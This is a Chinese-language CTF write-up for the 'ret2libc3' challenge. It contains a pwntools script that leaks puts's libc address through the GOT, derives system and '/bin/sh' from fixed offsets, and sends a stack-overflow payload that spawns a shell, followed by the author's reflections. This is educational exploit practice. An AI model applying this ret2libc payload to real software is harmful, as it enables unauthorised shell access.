 # ret2libc3

检查程序保护

![image-20240426175803055](图片/image-20240426175803055.png)



查看反汇编

![image-20240509173508421](图片/image-20240509173508421.png)

观察程序，发现溢出点在子函数中

![image-20240509173717414](图片/image-20240509173717414.png)

从拷贝函数这里开始突破，首先我尝试了在IDA中寻找system函数，构造系统调用的

rop链，由于是动态链接的文件，无法找到这些。于是考虑利用libc来找system函数

payload如下

```python
from pwn import *
import time 
sh = process('./ret2libc3')

ret2libc3 = ELF('./ret2libc3')

#gdb.attach(sh)
#sleep(15)

#获取puts的got地址
puts_plt = ret2libc3.got['puts']
#data = sh.recvuntil(b"Give me an address (in dec) :")
#程序中这里会将输入的地址取值，输入got表地址，便得到了函数地址
sh.sendlineafter(b"Give me an address (in dec) :",str(puts_plt))
#接收一行数据
data = sh.recvline()
#根据冒号将数据拆分成两部分 然后取出最后一部分，用strip() 去除收尾空格，再用int转为整数
puts_address = int(data.split(b':')[-1].strip(), 16)
#print(hex(puts_address))

#根据偏移找到system和bin_sh的地址
system_address = puts_address - 0x2C4C0
bin_sh = puts_address + 0x120723

#print(hex(system_address))               
payload = flat([b'a'*60,system_address,0xcafecafe,bin_sh])

sh.send(payload)

sh.interactive()
```

总结：

第一次read写入的是一个地址，See_something中打印出了改地址内的内容，正好可以利用got表打印出puts的函数地址

在这之后我卡了一会儿，一直在思考/bin/sh如何拿到，有尝试返回到read函数，但发现无法构造参数(有0x00)，后来想到也可以利用偏移到libc.so中去拿。思维有些定式，还需要转变一下自己的思维，让头脑更灵活一些。
